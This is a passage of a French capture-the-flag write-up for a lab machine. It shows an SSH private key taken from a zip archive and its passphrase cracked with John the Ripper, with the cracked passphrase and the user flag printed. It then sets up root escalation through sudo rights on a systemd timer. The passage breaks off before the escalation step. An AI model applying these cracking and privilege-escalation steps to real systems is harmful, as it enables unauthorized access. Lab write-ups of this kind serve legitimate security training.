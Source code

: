 On peut extraire la clé privée présente dans l'archive zip et ce sans avoir à extraire de mot de passe. La clé privée est par contre protégée par une passphrase. On va la casser avec *John the Ripper*.

```shell-session
$ ./john --wordlist=rockyou.txt /tmp/hashes.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
shuriken1995@    (/tmp/id_rsa)     
1g 0:00:00:01 DONE (2022-11-14 19:13) 0.7575g/s 2861Kp/s 2861Kc/s 2861KC/s shurke..shurik23
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Une nouvelle conexion SSH plus tard et on a notre premier flag dans le fichier `user.txt` : `cef238d297752990f891a9a184488124`.

## Wakisashi

Maintenant voyons comment passer root :

```shellsession
serv-adm@shuriken-node:~$ sudo -l
Matching Defaults entries for serv-adm on shuriken-node:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User serv-adm may run the following commands on shuriken-node:
    (ALL) NOPASSWD: /bin/systemctl start shuriken-auto.timer
    (ALL) NOPASSWD: /bin/systemctl stop shuriken-auto.timer
    (ALL) NOPASSWD: /bin/systemctl daemon-reload
```

L'utilisateur peut démarrer avec les droits root le timer dont le contenu est le suivant :

```systemd
[Unit]
Description=Run Shuriken utilities every 30 min

[Timer]
OnBootSec=0min
# 30 min job
OnCalendar=*:0/30
Unit=shuriken-job.service

[Install]
WantedBy=basic.target
```

Il fait appel au service du même nom qui effectue un simple appel à `df` :
